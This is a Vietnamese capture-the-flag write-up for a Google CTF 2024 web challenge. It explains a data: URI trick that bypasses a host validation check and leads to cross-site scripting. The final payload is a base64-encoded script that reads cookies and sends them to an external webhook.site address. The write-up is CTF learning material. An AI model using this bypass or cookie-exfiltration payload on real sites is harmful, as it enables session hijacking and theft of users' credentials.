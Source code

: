 2. Bypass restriction
- Ở hàm *buildUrl()*, host sẽ được đưa qua hàm *getHost()*, sau đó lại đưa qua hàm *validate()*. Để ý rằng hàm này không check scheme của host nên là ta có thể dùng trick *data:* để thực hiện chèn bất kì dữ liệu nào mà ta muốn. Syntax: ```data:[<mediatype>][;base64],<data>```
- Theo [document](https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/Data_URLs) thì nếu trường mediatype bị bỏ trống hoặc không hợp lệ thì default là ```text/plain;charset=US-ASCII```

  ![image](https://github.com/NoSpaceAvailable/GoogleCTF2024/assets/143888307/f64103ac-641b-4b6a-9cff-f1f39025e770)

  ![image](https://github.com/NoSpaceAvailable/GoogleCTF2024/assets/143888307/c72d64d9-3c32-42c8-8d97-dfc9de2467ba)

- Method goog.Uri.parse() nhận diện điểm bắt đầu của trường host trong URI là sau chuỗi '//', vì thế nên ta cần chèn thêm // vào payload để có 1 URI hợp lệ
- Cũng method trên, host kết thúc khi parser gặp dấu '/', vì thế nên ta cần chèn thêm '/' sau host
  
  ![image](https://github.com/NoSpaceAvailable/GoogleCTF2024/assets/143888307/ef29f3cc-d34d-4938-a5af-361845d64534)

  Vì regex quá đau đầu nên mình để source code check var parser ở [đây](https://github.com/google/closure-library/blob/7818ff7dc0b53555a7fb3c3427e6761e88bde3a2/closure/goog/uri/utils.js#L189)

- Sau khi bypass được check host xong thì host được trả về sẽ được nối với "/sap/" + <page>, ta có thể vứt luôn phần này bằng cách chèn thêm hash symbol (#) vào sau cùng của host
- Ngoài ra data schema còn hỗ trợ định dạng base64 nên ta có thể encode payload thoải mái mà không lo về việc escape character:

  ![image](https://github.com/NoSpaceAvailable/GoogleCTF2024/assets/143888307/63fd0b1e-4b6e-4c3b-b251-874ceda7b45b)

- Hàm fetch() sẽ trả về dữ liệu như sau khi fetch đến URI:

  ![image](https://github.com/NoSpaceAvailable/GoogleCTF2024/assets/143888307/4f6f17bf-1e56-4473-9f1d-b7684d13c1f9)

- Sau khi vượt qua restrition thì ta gửi thêm một message với method là render để hiển thị nội dung ta muốn. Vậy thì payload lúc này sẽ là:

  ![image](https://github.com/NoSpaceAvailable/GoogleCTF2024/assets/143888307/3181322f-35d1-4104-a0b4-56eeab05bdcc)

- À, dữ liệu sau khi fetch() về phải ở dạng JSON và có chứa key 'html', vì thế nên chuỗi base64 phải là:

  ![image](https://github.com/NoSpaceAvailable/GoogleCTF2024/assets/143888307/ec61236e-e80e-46e8-bab8-839673adcf93)

- Và đây là kết quả:

  ![image](https://github.com/NoSpaceAvailable/GoogleCTF2024/assets/143888307/44bc437a-8868-4ee1-b1f0-a0b1ae208e20)

- Khi thử set một cookie bất kì trên trang web và thử alert cookie đó lên thì mình vẫn nhận được cookie trả về, tuy nhiên khi gửi payload đến admin bot để lấy flag thì lại không nhận được gì cả. Có thể là do phía bot Google đã set thuộc tính samesite=true nên mình cần phải spawn một window mới và lấy cookie từ window đó.
- Payload cuối cùng:
  ```text
  {"method":"initialize", "host":"data://sappy-web.2024.ctfcompetition.com/;base64,eyJodG1sIjoiPGltZyBzcmM9eCBvbmVycm9yPVwiY29uc3QgdyA9IHdpbmRvdy5vcGVuKCdodHRwczovL3NhcHB5LXdlYi4yMDI0LmN0ZmNvbXBldGl0aW9uLmNvbS9zYXAuaHRtbCcpO3NldFRpbWVvdXQoKCkgPT4ge2NvbnN0IGNvb2tlZSA9IHcuZG9jdW1lbnQuY29va2llO2ZldGNoKCdodHRwczovL3dlYmhvb2suc2l0ZS84NDlmYmY5My1iNThmLTQ5ZWUtOGU1Yi1hMGI5MzA3OTQxM2IvP2E9JyArIGJ0b2EoY29va2VlKSk7fSwgMTAwMCk7XCI+In0=#>"}
  {"method":"render", "page":"thich_gi_dat_nay"}
  ```
